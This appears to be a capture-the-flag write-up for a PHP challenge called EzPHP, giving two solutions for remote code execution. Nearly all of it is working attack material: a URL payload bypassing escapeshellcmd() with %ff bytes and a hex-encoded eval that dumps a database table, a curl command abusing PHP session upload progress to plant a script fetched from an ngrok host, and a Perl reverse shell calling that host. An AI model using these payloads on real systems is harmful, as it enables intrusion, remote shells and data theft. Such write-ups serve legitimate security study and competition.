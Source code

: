 ## Target

bypass escapeshellcmd() and filter to get RCE

## Method 1 : One-Liner Payload 

bypass escapeshellcmd() by %ff character
```
http://34.142.236.192:8091/?cmd=p%ffhp+-r+ev%ffal(s%ffubst%ffr(hex2bin(aa24636f6e6e203d206e6577206d7973716c6928276462272c2027726f6f74272c202774657374272c2022646f636b65724578616d706c6522293b0a24726573203d2024636f6e6e2d3e7175657279282273656c656374202a2066726f6d205468655f7461626c655f796f755f646f6e745f6b6e6f7722293b0a7768696c652824726f77203d20247265732d3e66657463685f6173736f63282929207b0a202020207072696e745f722824726f77293b0a7d),1))%3b
```
Useful tool : https://3v4l.org/Nk2DT

by @fredd#8512

## Method 1 : God Solution 

For EzPHP

1.Abuse PHP sessions to drop file onto system. Example
```
curl http://34.142.236.192:8091/ -H 'Cookie: PHPSESSID=yeet1' -F $'PHP_SESSION_UPLOAD_PROGRESS=& curl http://0.tcp.au.ngrok.io:11712/rs.sh -o /tmp/rs.sh&&sd\nasdasd'  -F 'file=@/dev/urandom'
```

2.Execute by http://34.142.236.192:8091/?cmd=sh%20/tmp/sess_yeet1
Reverse shell http://34.142.236.192:8091/?cmd=sh%20/tmp/rs.sh. Reverse shell payload
```
perl -e 'use Socket;$i="0.tcp.au.ngrok.io";$p=11712;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

3.Once on drop mysql bins onto the system .
```
curl https://cdn.mysql.com//Downloads/MySQL-8.1/mysql-8.1.0-linux-glibc2.28-x86_64.tar.xz -o mysql.tar.xz
```

4.get flag from the other table (will send in a bit)


by @ghostccamm 
